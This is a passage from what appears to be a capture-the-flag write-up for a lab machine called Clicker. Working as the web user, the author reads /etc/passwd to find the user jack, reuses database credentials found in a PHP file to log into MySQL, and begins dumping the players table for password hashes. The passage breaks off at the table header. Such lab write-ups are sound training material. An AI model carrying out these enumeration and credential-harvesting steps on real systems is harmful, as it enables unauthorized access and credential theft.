On the system exists a user with the name `jack`:
```
www-data@clicker:/var/www/clicker.htb/exports$ cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
jack:x:1000:1000:jack:/home/jack:/bin/bash
www-data@clicker:/var/www/clicker.htb/exports$ ls -al /home/
total 12
drwxr-xr-x  3 root root 4096 Sep  5 19:19 .
drwxr-xr-x 18 root root 4096 Sep  5 19:19 ..
drwxr-x---  7 jack jack 4096 Dec 11 19:19 jack
www-data@clicker:/var/www/clicker.htb/exports$
```

So our first step is to find a way to become this user.

### Database
From the `db_utils.php` we already know the database information:
```php
$db_server="localhost";
$db_username="clicker_db_user";
$db_password="clicker_db_password";
$db_name="clicker";
```

With that we can access the database:
```
www-data@clicker:/var/www/clicker.htb/exports$ mysql -h localhost -u clicker_db_user --password=clicker_db_password clicker
mysql: [Warning] Using a password on the command line interface can be insecure.
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 774
Server version: 8.0.34-0ubuntu0.22.04.1 (Ubuntu)

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> 
```

Inhere we can extract the password hashes of the users:
```
mysql> show tables;
+-------------------+
| Tables_in_clicker |
+-------------------+
| players           |
+-------------------+
1 row in set (0.00 sec)

mysql> select * from players;
+---------------+----------------------------------------------------------------------------+------------------------------------------------------------------+-------+--------------------+-----------+
| username      | nickname                                                                   | password                                                         | role  | clicks             | level     |
```